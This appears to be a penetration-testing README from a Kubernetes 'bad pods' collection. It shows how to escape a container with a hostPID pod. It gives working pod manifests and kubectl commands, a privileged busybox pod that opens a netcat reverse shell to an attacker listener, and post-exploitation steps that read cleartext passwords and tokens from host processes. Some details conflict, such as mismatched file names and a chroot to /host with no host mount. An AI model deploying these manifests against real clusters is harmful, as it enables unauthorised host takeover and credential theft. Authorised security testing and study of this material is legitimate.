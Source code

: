## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpid
  labels:
    app: hostpid
spec:
  hostPID: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostpid
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
  restartPolicy: Always
  ```
[pod-priv.yaml](pod-priv.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostpid.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpid/pod-hostpid.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: priv-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    securityContext:
      privileged: true
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
```
[pod-hostpid-revshell.yaml](pod-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostpid/pod-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```


# Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc. 
# Check out that clear text password in the ps output below! 

ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...

# Also, you can also kill any process, but don't do that in production :)
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

